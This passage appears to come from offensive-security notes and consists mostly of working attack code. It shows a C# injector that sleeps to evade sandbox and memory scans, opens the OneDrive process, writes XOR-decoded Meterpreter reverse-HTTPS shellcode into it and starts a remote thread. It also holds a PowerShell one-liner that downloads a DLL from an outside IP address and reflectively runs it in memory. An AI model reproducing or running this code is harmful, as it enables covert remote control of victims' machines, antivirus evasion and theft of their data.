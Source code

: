                 // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }
                //string processName = args[0];
                Process[] pList = Process.GetProcessesByName("OneDrive");
                if (pList.Length == 0)
                {
                    Console.WriteLine("[-] No such process!");
                    System.Environment.Exit(1);
                }
                int processId = pList[0].Id;
                // 0x001F0FFF = PROCESS_ALL_ACCESS
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

                // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[567] {0x9d,0x89,0xee,0x61,0x61,0x61,
    0x01,0x50,0xb3,0xe8,0x84,0x05,0xea,0x33,0x51,0xea,0x33,0x6d,
    ..............................................

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }

#### PowerShell DLL Reflective Injector (NTAPI Method):

    //NTAPI Method only works manually / from 64bit processes (no macro)

    // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a

    [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.224/NtProcessInjectorDLL.dll')).GetType('NtProcessInjectorDLL.MyClass').GetMethod('injector').Invoke(0, $null)
